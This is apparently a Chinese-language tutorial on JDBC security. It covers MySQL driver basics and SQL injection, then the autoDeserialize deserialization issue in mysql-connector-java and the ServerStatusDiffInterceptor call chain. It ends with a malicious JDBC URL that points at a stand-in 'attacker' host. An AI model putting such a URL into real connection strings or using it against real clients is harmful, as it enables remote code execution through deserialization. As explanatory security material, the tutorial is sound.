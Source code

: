 # JDBC攻击

JDBC（Java DataBase Connectivity），是Java程序访问数据库的标准接口。常用的关系数据库包括：付费的（`Oracle、SQL Server、DB2、Sybase`）、开源的（`MySQL、PostgreSQL、Sqlite`）。JDBC接口通过JDBC驱动来访问数据库，而JDBC驱动由各个数据库厂商提供，也就是不同的数据库对应有各自的驱动。使用JDBC的好处就是不需要根据不同的数据库做开发，拥有统一的接口。

## JDBC应用

假如使用MySQL的JDBC驱动，只需要在maven中引入对应的jar包。scope设置为runtime，因为编译时并不需要此jar包，只在运行期使用。
```
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>5.1.47</version>
    <scope>runtime</scope>
</dependency>
```

使用jdbc连接mysql中student数据库（mysql驱动后面跟的可选扩展参数包括`loadDataLocal、requireSSL、socksProxyHost、useAsyncProtocol、useServerPrepStmts、allowUrlInLoadLocal`等）
```java
String JDBC_URL = "jdbc:mysql://localhost:3306/student?requireSSL=false";
String JDBC_USER = "root";
String JDBC_PASSWORD = "password";
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) { // 获取数据库连接
    try (Statement stmt = conn.createStatement()) {
        try (ResultSet rs = stmt.executeQuery("SELECT id, name FROM students WHERE id=1")) {
            while (rs.next()) { // 获取列数据
                int id = rs.getInt(1); // ResultSet 索引从1开始，而不是0
                String name = rs.getString(2);
            }
        }
    }
}
conn.close();
```

`Statement`容易引发SQL注入，想要完全避免SQL注入可以使用`PreparedStatement`，使用占位符的方式。
```java
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) {
    try (PreparedStatement ps = conn.prepareStatement("SELECT id, name FROM students WHERE id=?")) {
        ps.setObject(1, id);
        try (ResultSet rs = ps.executeQuery()) {
            while (rs.next()) {
                int id = rs.getInt("id");
                String name = rs.getString("name");
            }
        }
    }
}
```

## JDBC攻击

上面提到mysql驱动的URL可选扩展参数有很多，其中一个叫做`autoDeserialize`，如果配置为true，客户端会自动反序列化服务端返回的数据。mysql-connector-java.jar中的类`com/mysql/cj/jdbc/result/ResultSetImpl.class#getObject()`方法如下。如果autoDeserialize属性值为true，就会进行反序列化操作。
```java
byte[] data = this.getBytes(columnIndex);
if (!(Boolean)this.connection.getPropertySet().getBooleanProperty(PropertyKey.autoDeserialize).getValue()) {
    return data;
} else {
    Object obj = data;
    if (data != null && data.length >= 2) {
        ...
        try {
            ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
            ObjectInputStream objIn = new ObjectInputStream(bytesIn);
            obj = objIn.readObject();
            objIn.close();
            bytesIn.close();
        } 
}
```
但是默认情况下客户端不会调用getObject()方法。就像找反序列化调用链一样需要找到上层的调用。https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf这篇给出的链条如下
```
com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#postProcess/preProcess
  com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues
    ResultSetUtil#resultSetToMap
```
最终走到的resultSetToMap方法如下，调用了getObject()方法
```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
```
`ServerStatusDiffInterceptor`实现自QueryInterceptor接口，它对应扩展参数queryInterceptors。那么就可以构造一个恶意的JDBC URI
```
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
